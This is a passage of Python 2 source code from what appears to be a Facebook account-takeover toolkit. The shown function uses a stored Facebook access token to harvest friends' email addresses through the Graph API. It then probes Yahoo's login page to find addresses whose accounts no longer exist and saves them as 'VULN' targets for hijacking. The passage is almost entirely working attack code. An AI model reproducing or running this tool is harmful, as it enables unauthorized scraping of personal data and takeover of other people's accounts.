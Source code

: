 				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/MailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()

##### CLONE FROM FRIEND #####
def yahoofromfriends():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
	try:
		jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
		op = json.loads(jok.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
	except KeyError:
		print"\033[1;91m[!] Friend not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	jalan('\033[1;91m[✺] \033[1;92mGetting email from friend \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/FriendMailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")